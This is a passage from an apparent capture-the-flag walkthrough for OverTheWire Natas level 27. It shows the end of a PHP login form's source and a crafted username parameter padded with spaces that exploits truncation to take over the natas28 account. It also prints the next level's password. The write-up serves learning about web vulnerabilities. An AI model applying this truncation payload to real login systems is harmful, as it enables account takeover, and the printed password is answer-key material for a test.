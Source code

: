   ```
      }
  
      mysqli_close($link);
  } else {
  ?>
  
  <form action="index.php" method="POST">
  Username: <input name="username"><br>
  Password: <input name="password" type="password"><br>
  <input type="submit" value="login" />
  </form>
  <?php } ?>
  ```

- Intercept the login request and change parameters to this:

  ```
  username=natas28+++++++++++++++++++++++++++++++++++++++++++++++X&password=test
  ```

- `+` signs are URL encoded Spaces. Now, login as `natas28:test` and read the password.

---

## 🏁 Password for the next level

`Password for natas28 is: 1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj`

---

Back to [Main Repo](https://github.com/mauzware/OverTheWire-Natas)
